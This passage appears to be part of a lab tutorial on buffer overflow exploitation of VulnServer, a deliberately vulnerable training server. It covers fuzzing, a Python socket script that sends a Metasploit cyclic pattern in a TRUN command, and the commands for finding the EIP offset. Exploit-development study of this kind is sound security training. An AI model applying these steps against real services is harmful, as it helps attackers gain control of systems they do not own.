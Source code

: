 
Make fuzz.py executable (chmod +X fuzz.py) or run in python terminal
Run fuzz.py (make sure VulnServer and Immunity are running on Windows 10)
fuzz.py might not stop on its own right away. 
If you see VulnServer crash in Immunity you can close out of fuzz.py (ctrl + c)

#### Windows 10: 
look in Immunity (may or may not have over written the EIP). 


## Finding the Offset:

#### Kali Linux:
```
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <"Fuzzing crashed at %s bytes">
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
```

after running the command copy the output and use it to modify the previous python script. 

create python script offset.py

```
#!/usr/bin/python

import sys, socket

offset = ""             # paste in here the output from offset.py

while True:
    try: 
            s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
            s.connect(('192.168.1.90',9999))                    #change to match the IP and port# of the application you are fuzzing

            s.send(('TRUN /..:/' + offset))                     #change TRUN to be the command you are Fuzzing
            s.close()

    except: 
            print "Error connecting to Server."
            sys.exit()
```

Run the script and go check Immunity Debugger in Windows

#### Windows 10: 
in Immunity Debugger copy the EIP info (should be hexadecimal numbers). 

#### Kali Linux: 
```
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <"Fuzzing crashed at %s bytes"> -q <EIP info>
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 3000 -q 386F4337
```
[*] Exact match found at offset 2003		<== needed so we can control the EIP
